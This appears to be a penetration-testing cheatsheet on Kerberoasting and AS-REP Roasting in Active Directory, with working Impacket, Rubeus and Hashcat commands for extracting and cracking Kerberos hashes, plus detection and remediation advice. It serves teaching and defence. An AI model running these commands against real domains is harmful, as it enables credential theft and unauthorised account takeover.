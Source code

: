 ## 🔑 Cheatsheet: Active Directory Roasting Attacks

"Roasting" in Active Directory refers to a class of attacks that abuse features of the Kerberos authentication protocol to extract service or user account credential material. This material (a hash) is then taken offline to be cracked, allowing an attacker to recover the account's plaintext password.

---

### ## Kerberoasting

**Overview:** An offline attack to crack the passwords of **service accounts**. Kerberoasting targets accounts that have a Service Principal Name (SPN) registered, which is common for services like MSSQL, HTTP, or custom applications. The vulnerability exists because the Kerberos TGS ticket is encrypted with the service account's password hash and can be requested by any authenticated domain user.

#### **How It Works**

1.  An attacker, as any authenticated domain user, queries the Domain Controller for accounts with SPNs.
2.  The attacker requests a Kerberos Ticket Granting Service (TGS) ticket for a specific service.
3.  The Domain Controller returns a TGS ticket, a portion of which is encrypted with the service account's NTLM hash.
4.  The attacker extracts this encrypted portion from the ticket.
5.  The hash is taken offline and cracked using tools like Hashcat to reveal the service account's plaintext password.
    

#### **Execution Workflow**

* **From Linux (using Impacket):**
    ```bash
    # GetUserSPNs.py requests TGS tickets for accounts with SPNs and extracts the hash
    # -dc-ip: Domain Controller IP
    # -request: Requests the TGS ticket
    # <domain>/<user>:<password> : Authenticated user credentials
    GetUserSPNs.py -dc-ip <DC_IP> -request <domain>/<user>
    ```

* **From Windows (using Rubeus):**
    ```powershell
    # Rubeus is a powerful, modern tool for Kerberos interaction
    Rubeus.exe kerberoast /outfile:hashes.txt
    ```

* **Cracking the Hash (with Hashcat):**
    The extracted hash can be cracked offline using a wordlist.
    ```bash
    # -m 13100 is the mode for Kerberos 5 TGS-REP tickets
    hashcat -m 13100 hashes.txt /path/to/wordlist.txt
    ```

#### **🛡️ Detection & Remediation**

* **Detection:** Monitor for an unusual number of TGS ticket requests (Event ID 4769) from a single user or host. Security tools can also detect requests for tickets using weak RC4-HMAC encryption.
* **Remediation:**
    * **Strong Passwords:** Enforce long (25+ characters), complex, and unique passwords for all service accounts. These accounts are high-value targets.
    * **Use Group Managed Service Accounts (gMSAs):** gMSAs use automatically managed, 240-character complex passwords that are rotated by the domain, making them immune to offline cracking.
    * **Audit & Monitor:** Regularly audit accounts with SPNs for weak passwords and monitor for signs of Kerberoasting activity.

---

### ## AS-REP Roasting

**Overview:** An offline attack to crack the passwords of **user accounts** that have a specific, insecure setting enabled: **"Do not require Kerberos preauthentication."** Pre-authentication is a security measure that proves a user knows their password *before* the Domain Controller sends them encrypted material. If this is disabled, anyone can request the initial encrypted material for a user and attempt to crack it offline.

#### **How It Works**

1.  An attacker finds user accounts that do not require Kerberos pre-authentication.
2.  The attacker sends an Authentication Server Request (AS-REQ) for one of these users to the Domain Controller.
3.  Because pre-authentication is disabled, the DC immediately returns an Authentication Server Response (AS-REP) containing a portion encrypted with the user's password hash.
4.  The attacker extracts this hash and takes it offline to crack.

#### **Execution Workflow**

* **From Linux (using Impacket):**
    ```bash
    # GetNPUsers.py finds and requests hashes for users with pre-auth disabled
    # -no-pass: No password is needed to make the request
    GetNPUsers.py <domain>/ -usersfile <users.txt> -format hashcat -outputfile hashes.txt
    ```

* **From Windows (using Rubeus):**
    ```powershell
    # Rubeus can discover and roast these accounts in one command
    Rubeus.exe asreproast /outfile:hashes.txt
    ```

* **Cracking the Hash (with Hashcat):**
    ```bash
    # -m 18200 is the mode for Kerberos 5 AS-REP tickets
    hashcat -m 18200 hashes.txt /path/to/wordlist.txt
    ```

#### **🛡️ Detection & Remediation**

* **Detection:** Monitor for Kerberos authentication events (Event ID 4768) where the "Pre-Authentication Type" is 0. A high volume of these requests for different users from a single source is a strong indicator of an AS-REP Roasting attack.
* **Remediation:**
    * **Enable Pre-authentication:** This is the most critical fix. Audit Active Directory for any user or computer accounts that have "Do not require Kerberos preauthentication" enabled and disable this setting. There are very few legitimate reasons for it to be disabled.
    * **Enforce Strong Passwords:** A strong password policy makes offline cracking much more difficult, even if an AS-REP hash is obtained.
    * **Monitor Privileged Accounts:** Pay special attention to privileged accounts (e.g., members of Domain Admins) to ensure pre-authentication is always enabled.

